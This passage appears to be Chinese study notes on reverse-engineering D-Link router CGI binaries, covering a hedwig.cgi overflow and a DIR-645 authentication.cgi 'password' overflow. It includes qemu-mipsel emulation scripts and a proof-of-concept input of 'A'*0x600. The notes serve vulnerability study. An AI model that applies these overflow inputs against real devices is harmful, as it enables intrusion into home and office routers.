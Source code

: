 ```C

if [ "$LEN" == "0" ] || [ "$INPUT" == "-h" ] || [ "$UID" != "0" ]
then
    echo -e "\nusage: sudo $0\n"
    exit 1
fi

cp $(which qemu-mipsel-static) ./qemu

echo "$INPUT"  | chroot .  ./qemu  -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencodede" -E REQUEST_METHOD="POST" -E HTTP_COOKIE=$INPUT -E REQUEST_URI="/hedwig.cgi" -E REMOTE_ADDR="192.168.1.1" -g $PORT /htdocs/web/hedwig.cgi #2>/dev/null
echo "run ok"
rm -f ./qemu
```

不晓得为什么没有得到shell。都执行system('/bin/sh')了。不知道是不是必须要在真实路由器上面跑啊。。。。。先放这里，后面再回来看。

## 第11章 D-Link DIR-645路由器溢出漏洞分析

### 漏洞分析

漏洞是CGI脚本authentiction.cgi在读取POST参数中“password”参数的值时可造成缓冲区溢出。下载固件DIR—645\_FIRMWARE\_1.03.ZIP，链接是[ftp://ftp2.dlink.com/PRODUCTS/DIR-645/REVA/DIR-645_FIRMWARE_1.03.ZIP](ftp://ftp2.dlink.com/PRODUCTS/DIR-645/REVA/DIR-645_FIRMWARE_1.03.ZIP)。

binwalk 解压固件提取出文件系统。
```C
binwalk -Me dir645_FW_103.bin
```

漏洞的核心组件是`./htdocs/web/authentication.cgi`，file查看得到
```C
file ./htdocs/web/authentication.cgi 
./htdocs/web/authentication.cgi: broken symbolic link to /htdocs/cgibin
```
真正的漏洞在cgibin中。

直接使用poc，对程序进行测试。
```bash
#!/bin/bash
# cgi_run.sh
# sudo ./cgi_run.sh `python -c  "print 'uid=1234&password='+'A'*0x600"` "uid=1234"

INPUT="$1"
TEST="$2"

LEN=$(echo -n $INPUT | wc -c)
PORT="1234"


if [ "$LEN" == "0" ] || [ "$INPUT" == "-h" ] || [ "$UID" != "0" ]
then
    echo -e "\nusage: sudo $0\n"
    exit 1
fi

cp $(which qemu-mipsel-static) ./qemu

echo "$INPUT"  | chroot .  ./qemu  -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencodede" -E REQUEST_METHOD="POST"  -E REQUEST_URI="/authentication.cgi" -E REMOTE_ADDR="192.168.1.1" -g $PORT /htdocs/web/authentication.cgi 2>/dev/null
echo "run ok"
rm -f ./qemu
```